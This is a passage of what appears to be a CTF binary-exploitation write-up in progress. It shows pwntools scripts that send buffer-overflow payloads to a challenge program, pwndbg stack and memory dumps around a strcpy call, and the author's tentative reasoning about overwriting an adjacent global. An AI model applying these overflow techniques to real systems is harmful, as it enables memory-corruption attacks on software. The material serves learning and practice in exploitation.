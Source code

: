 ```
        s2: 0x55f6cdbb2281 ◂— 0x75577500557755 /* 'UwU' */
```
then somehow the program is going to identify these two to be the same and proceed to `UwU`

with
```py
gdb.attach(p, s)
payload = 'X' * 0x20 # fill the buffer completely 
p.sendafter('> ', payload) 
payload2 = p64(0xdeadbeef) # fill the buffer completely 
p.sendafter('> ', payload2) 
```
it shows something like this after copying `0xdeadbeef` to `UUUwwUUU`
```
   0x55d0e8f14936 <main+346>    call   strcpy@plt                  <strcpy@plt>
 
 ► 0x55d0e8f1493b <main+351>    jmp    main+77                     <main+77>
    ↓
   0x55d0e8f14829 <main+77>     mov    eax, 0                  EAX => 0
   0x55d0e8f1482e <main+82>     call   UwU_menu                    <UwU_menu>
 
   0x55d0e8f14833 <main+87>     lea    rax, [rbp - 0x30]
   0x55d0e8f14837 <main+91>     mov    edx, 0x20               EDX => 0x20
   0x55d0e8f1483c <main+96>     mov    rsi, rax
──────────────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────────────
00:0000│ rsp 0x7ffd51ead910 ◂— 0
01:0008│-038 0x7ffd51ead918 ◂— 8
02:0010│ rsi 0x7ffd51ead920 ◂— 0xdeadbeef
03:0018│-028 0x7ffd51ead928 ◂— 'XXXXXXXXXXXXXXXXXXXXXXXX'
... ↓        2 skipped
06:0030│-010 0x7ffd51ead940 ◂— 0
07:0038│-008 0x7ffd51ead948 ◂— 0xe7821dc246713800
────────────────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────────────────
 ► 0   0x55d0e8f1493b main+351
   1   0x7fddcd021d68 __libc_start_call_main+120
   2   0x7fddcd021e25 __libc_start_main+133
   3   0x55d0e8f141e5 _start+37
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> x/32gx &UUUwwUUU
0x55d0e8f17060 <UUUwwUUU>:	0x58585800deadbeef	0x5858585858585858
0x55d0e8f17070 <UUUwwUUU+16>:	0x5858585858585858	0x5858585858585858
0x55d0e8f17080 <UwUUwUUwUUwU>:	0x0000000000000000	0x0000000000000000
```
so i guess it is pretty much impossible to make it overflow into `UwUUwUUwUUwU`....(?)
```py
payload = b'X' * 0x20  
p.send(payload)        

p.recvuntil(b'UwU...') 

p.sendline(b'UwU')  

gdb.attach(p, s)

for i in range(6):
    add(i, 0x100, b'A'*0x100)

p.interactive()
```
will do the following: 
```
 ► 0x563c0106b936 <main+346>    call   strcpy@plt                  <strcpy@plt>
```